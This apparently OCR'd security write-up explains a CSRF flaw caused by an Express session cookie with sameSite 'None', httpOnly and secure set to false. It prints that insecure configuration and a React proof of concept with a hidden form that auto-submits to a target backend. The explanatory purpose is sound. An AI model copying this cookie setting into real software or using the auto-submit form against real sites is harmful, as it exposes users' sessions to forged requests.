 \documentclass[]{article}
\begin{document}
The \texttt{SameSite} attribute has three possible values: `Strict`, `Lax` and `None`. When set to `None`, cookies can be sent with cross-site requests, which increases the risk of CSRF attacks. Note: setting to 'Lax' is dangerous too.

\textbf{Vulnerable Code:}
CSRF vulnerability arises from the misconfiguration of the SameSite attribute. Below is shown such misconfiguration in the Express backend's cookie settings:

\begin{lstlisting}
cookie: {
    httpOnly: false,
    secure: false,
    sameSite: "None",
    maxAge: 3600000000
}
\end{lstlisting}

In this case, the `sameSite: "None"` configuration allows cookies to be sent in cross-origin requests, which can be exploited by attackers to perform malicious actions. The CORS configuration, often assumed to protect against CSRF, does not prevent such attacks. Even if CORS is configured securely (e.g., `origin: "http://frontend.example.com"`), CSRF can still occur through requests classified as "simple" by browsers, such as those originating from HTML forms.

\textbf{Exploitation:}
A malicious website hosted on a domain such as \texttt{malware.example2.com} can automatically (without using intervention) submit authenticated requests (so requests having session cookie) to the vulnerable backend. The attack does not perform preflight requests, bypassing CORS entirely, and browser automatically attaches the cookies due to the `SameSite=None` misconfiguration.

Here is an example of a malicious HTML form that exploits the vulnerability:

\begin{lstlisting}
// ... other code

useEffect(() => {
    // Automatically click the submit button when the component mounts
    submitButtonRef.current.click();
}

// ... other code

return(
    /* ... other code */

    <form action="http://backend.example.com/users/pendingRegistration" method="GET">
        <button hidden
            type="submit" 
            ref={submitButtonRef}
        >
            Submit
        </button>
    </form>
);

// ... other code
\end{lstlisting}
\end{document}
